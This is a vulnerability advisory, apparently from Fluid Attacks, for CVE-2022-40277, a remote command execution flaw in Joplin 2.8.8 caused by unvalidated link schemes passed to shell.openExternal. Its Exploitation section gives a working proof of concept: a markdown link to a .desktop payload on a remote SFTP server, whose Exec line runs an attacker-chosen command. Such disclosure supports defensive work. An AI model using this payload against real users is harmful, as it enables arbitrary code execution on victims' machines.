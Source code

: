 ```yaml
---
slug: advisories/skrillex/
title: Joplin 2.8.8  -  Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: skrillex
product: Joplin 2.8.8
date: 2022-09-26 05:00 COT
cveid: CVE-2022-40277
severity: 7.7
description: Joplin 2.8.8  -  Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Joplin
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Joplin 2.8.8  -  Remote Command Execution              |
| **Code name**         | [Skrillex](https://en.wikipedia.org/wiki/Skrillex)     |
| **Product**           | Joplin                                                 |
| **Affected versions** | Version 2.8.8                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 7.7                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40277)                        |

## Description

Joplin version 2.8.8 allows an external attacker to execute arbitrary
commands remotely on any client that opens a link in a malicious
markdown file, via Joplin. This is possible because the application
does not properly validate the schema/protocol of existing links in
the markdown file before passing them to the shell.openExternal
function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs. Here is a small example to give you a better
understanding of vulnerability.

![image](https://user-images.githubusercontent.com/51862990/189775403-75f4e110-50f0-4afb-8cd6-63dd2c651b16.png)

![image](https://user-images.githubusercontent.com/51862990/189775423-31154fd3-f95e-4072-8cad-facb1b075e0f.png)

Basically what the application is doing is sending to
shell.openExternal(url), any url present in the markdown
file.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this
distribution because in its default configuration it executes the
payload.desktop file after mounting the remote location where the
payload file is located. In other Linux distributions by default these
files are not executed once the remote location is mounted.

In the resources section I will provide you with support material so
that you can understand in greater depth what I have just explained.

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Joplin:

### exploit.md

```markdown
[exploit](sftp://user@server/uploads/payload.desktop)
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```txt
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

## Evidence of exploitation

![RCE-Joplin](https://user-images.githubusercontent.com/51862990/189775676-83553248-0452-4df4-a9c1-7b65bbbe4792.gif)

## Our security police

We have reserved the CVE-2022-40277 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Joplin 2.8.8

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/laurent22/joplin>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
